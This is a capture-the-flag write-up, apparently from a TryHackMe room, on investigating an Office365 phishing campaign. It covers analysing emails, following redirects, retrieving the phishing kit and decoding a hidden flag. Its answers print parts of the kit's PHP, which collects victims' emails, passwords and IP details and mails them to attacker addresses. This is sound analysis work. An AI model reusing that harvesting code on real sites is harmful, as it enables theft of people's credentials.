




*Apply learned skills to probe malicious emails and URLs, exposing a vast phishing campaign.*

**Difficulty:** Easy

#blue #phishing

---

An Ordinary Midsummer Day...  

As an IT department personnel of SwiftSpend Financial, one of your responsibilities is to support your fellow employees with their technical concerns. While everything seemed ordinary and mundane, this gradually changed when several employees from various departments started reporting an unusual email they had received. Unfortunately, some had already submitted their credentials and could no longer log in.

You now proceeded to investigate what is going on by:

1. Analysing the email samples provided by your colleagues.
2. Analysing the phishing URL(s) by browsing it using Firefox.
3. Retrieving the phishing kit used by the adversary.
4. Using CTI-related tooling to gather more information about the adversary.
5. Analysing the phishing kit to gather more information about the adversary.

---

Who is the individual who received an email attachment containing a PDF?

I opened each of the `.eml` files provided in `/phish-emails` with Thunderbird Mail. The emails with the subject *Group Marketing Online Direct Credit Advice* all contain an `.html` attachment, but the email titled *Quote for Services Rendered: processed on June 29, 2020, 10:01:32 AM*  contains a `.pdf` attachment. The receiver of this email can be seen in Thunderbird.



What email address was used by the adversary to send the phishing emails?

Looking in Thunderbird all these emails were send from the same email address. Using `View Scource` and looking at the `From:` (data pont??) will provide the sender's email address.

```
From: "Group Marketing Online Accounts Payable"
 <********.*******@********************.***>
```

What is the redirection URL to the phishing page for the individual Zoe Duncan? (defanged format)

To answer this questions I saved the `.html` attachment in the email sent to Zoe Duncan and opened it in Vim. The redirection URL is shown in the file in the tags `<meta content="">` and `<a href="">`



What is the URL to the .zip archive of the phishing kit? (defanged format)

By visiting the (base/root?) site that has been linked so far by the adversary, we are given an (index of the contents of the site). Http must be used instead of https to view this index, can can be used to emumerate the site and find the location of a `.zip` file.

`hxxp[://]kennaroads[.]buzz/data`



What is the SHA256 hash of the phishing kit archive?

From this site index, I downloaded the `.zip` file and ran the command:

`sha256sum *********.zip`

When was the phishing kit archive first submitted? (format: YYYY-MM-DD HH:MM:SS UTC)

By searching for the SHA256 hash on VirusTotal and viewing the Details tab, this date can be found under "First Submission".

When was the SSL certificate the phishing domain used to host the phishing kit archive first logged? (format: YYYY-MM-DD)

*See THM hint:* SSL Certificate is no longer available to reliably answer this question. ANS: "2020-06-25"

What was the email address of the user who submitted their password twice?

I looked around the site index some more and found a file `/data/Update365/log.txt`. This file seems to contain passwords collected from people who have fallen for the phishing campain. There is one email/password combination listed twice in this file.



What was the email address used by the adversary to collect compromised credentials?

In the extracted phishing kit, the file `submit.php` shows the code that is run when a victim submits their credentials to the phishing site. This file shows how the credentials are formatted into an email to send back to the attacker, whose email address is shown in the `$send` variable.

```
$country = visitor_country();
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate = date("D M d, Y g:i a");
$from = $_SERVER['SERVER_NAME'];
$ip = getenv("REMOTE_ADDR");
$hostname = gethostbyaddr($ip);
$email = $_POST['email'];
$password = $_POST['password'];
$passchk = strlen($password);

$message .= "---------+ Office365 Login  |+-------\n";
$message .= "Email : ".$email."\n";
$message .= "Password : ".$password."\n";
$message .= "-----------------------------------\n";
$message .= "Client IP: ".$ip."\n";
$message .= "User Agent : ".$browser."\n";
$message .= "Country : ".$country."\n";
$message .= "Date: ".$adddate."\n";
$message .= "--- http://www.geoiptool.com/?IP=$ip ----\n";
$message .= "--+ Created BY Real Carder +---\n";

$send = "******@******.***";
```

The adversary used other email addresses in the obtained phishing kit. What is the email address that ends in "@gmail.com"?

I looked around some of the other files and found a different attacker email address in `script.st` which can be seen in the `$to` variable. This script seems to also collect the viction's IP, email and password.

```
    //get user's ip address 
    $geoplugin->locate();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) { 
    $ip = $_SERVER['HTTP_CLIENT_IP']; 
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) { 
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR']; 
    } else { 
    $ip = $_SERVER['REMOTE_ADDR']; 
    }

    $message = "";
	$message .= "---|BLESSINGS|---\n";
    $message .= "Email Provider: Yahoo\n";
    $message .= "E: " . $_GET['email'] . "\n"; 
    $message .= "Ps: " . $_GET['password'] . "\n"; 
    $message .= "IP : " .$ip. "\n"; 
    $message .= "--------------------------\n";
    $message .=     "City: {$geoplugin->city}\n";
    $message .=     "Region: {$geoplugin->region}\n";
    $message .=     "Country Name: {$geoplugin->countryName}\n";
    $message .=     "Country Code: {$geoplugin->countryCode}\n";
    $message .= "--------------------------\n";

	$to ="***************@gmail.com"

	$subject = "Yahoo | $ip";
	$headers = "From: Blessing <blessing@heaven.com>";
```

What is the hidden flag?

Looking through the site index and all its subdirectories, I didn't see any expected filename like `flag.txt`. I tried putting this filename directly into the address bar on the phishing site. After trying all possible subdirectories with this method I eventually found something interesting.

`http://kennaroads.buzz/?/flag.txt`

```
The secret is:
********************************
```

This secret appeared to be base64 encoded, so I entered it into CyberChef using "From Base64". This got close to a traditional THM flag format, but the "Reverse" operation in CyberChef needs to be added to get the properly formatted flag.